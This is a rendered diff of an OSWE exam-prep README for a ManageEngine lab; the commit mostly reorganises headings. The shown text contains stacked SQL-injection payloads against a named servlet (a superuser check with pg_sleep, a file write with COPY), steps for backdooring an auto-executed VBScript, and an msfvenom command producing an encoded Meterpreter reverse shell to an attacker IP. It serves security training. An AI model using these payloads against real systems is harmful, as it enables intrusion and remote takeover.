

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/ManageEngine/README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/ManageEngine/README.md
+++ b/OSWE-Labs/ManageEngine/README.md
@@ -16,15 +16,15 @@ Java web applications use a deployment descriptor file named **`web.xml`** to de
 - The attacker tests a SQL injection vulnerability to confirm DBA privileges by using a payload that checks if `current_setting('is_superuser')` returns `"on"`. If true, it triggers a 10-second delay via `pg_sleep(10)`, confirming administrative access. `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+`
 - Use SQLI to write to the file system `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+`
 - Invistige if any VB scripts are being executed after performaing some action (Creating a Monitor in our case) via ProcMon. If we have ability to write to the file system, we can inject a backdoor into this VB script and it will be executed automatically by the application.
-### Backdoor Crafting
-#### 1. Making the original script one liner
+### Accessing the filesystem
+#### Backdoor Crafting
+1. **Making the original script one liner**
 Match and replace roles in Notepad++ :
 - `'.*` (remove the comments)
 - ` _.*?\n` with `✅ matches newline` option enabled (remove continuation lines)
 - `    ` (remove tabs)
 - match `\n` replace with `:` (remove newline and replace it with `:` which is the VB script command terminator)
-#### 2. Create reverse shell
-Crafting the reverse shell using msfvenom:
+2. **Create reverse shell**
 ```
 msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
 ```
````
Also changed, not shown: other parts of OSWE-Labs/ManageEngine/README.md (+1 -1 lines).
